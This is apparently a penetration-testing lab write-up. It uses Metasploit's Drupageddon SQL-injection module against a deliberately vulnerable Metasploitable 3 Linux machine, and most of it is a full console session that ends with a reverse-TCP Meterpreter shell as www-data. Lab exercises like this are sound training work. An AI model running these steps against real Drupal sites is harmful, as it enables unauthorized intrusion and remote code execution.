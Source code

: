 ```yaml
---
title: Drupal HTTP Parameter Key/Value SQL Injection
description: Drupal HTTP Parameter Key/Value SQL Injection
date: 2023-02-15 00:00:00+0000
categories:
    - Metasploitable3 Linux Edition
    - Parrot OS
tags:
    - metasploit
    - Metasploitable3 Linux Edition
weight: 1   
toc: false
---
```

## Target: Metasploitable 3 Linux

## Tool: Metasploit

## Vulnerability: Drupal HTTP Parameter Key/Value SQL Injection

"This module exploits the Drupal HTTP Parameter Key/Value SQL Injection (aka Drupageddon) in order to achieve a remote shell on the vulnerable instance. This module was tested against Drupal 7.0 and 7.31 (was fixed in 7.32). Two methods are available to trigger the PHP payload on the target: - set TARGET 0: Form-cache PHP injection method (default). This uses the SQLi to upload a malicious form to Drupal's cache, then trigger the cache entry to execute the payload using a POP chain. - set TARGET 1: User-post injection method. This creates a new Drupal user, adds it to the administrators group, enable Drupal's PHP module, grant the administrators the right to bundle PHP code in their post, create a new post containing the payload and preview it to trigger the payload execution."

<https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon/>

```shell
[msf](Jobs:0 Agents:0) >> use exploit/multi/http/drupal_drupageddon
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Drupal 7.0 - 7.31 (form-cache PHP injection method)
    1   Drupal 7.0 - 7.31 (user-post PHP injection method)


[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> set TARGET 0
TARGET => 0
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> show options

Module options (exploit/multi/http/drupal_drupageddon):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/
                                         basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The target URI of the Drupal installation
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  127.0.0.1        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Drupal 7.0 - 7.31 (form-cache PHP injection method)



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> set RHOST 10.0.2.28
RHOST => 10.0.2.28
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> set LHOST 10.0.2.16
LHOST => 10.0.2.16
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> set TARGETURI /drupal/
TARGETURI => /drupal/
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> exploit

[*] Started reverse TCP handler on 10.0.2.16:4444 
[*] Sending stage (39927 bytes) to 10.0.2.28
[*] Meterpreter session 1 opened (10.0.2.16:4444 -> 10.0.2.28:44842) at 2024-02-20 10:03:59 +0000

(Meterpreter 1)(/var/www/html/drupal) > getuid
Server username: www-data
(Meterpreter 1)(/var/www/html/drupal) > pwd
/var/www/html/drupal
(Meterpreter 1)(/var/www/html/drupal) > 
```
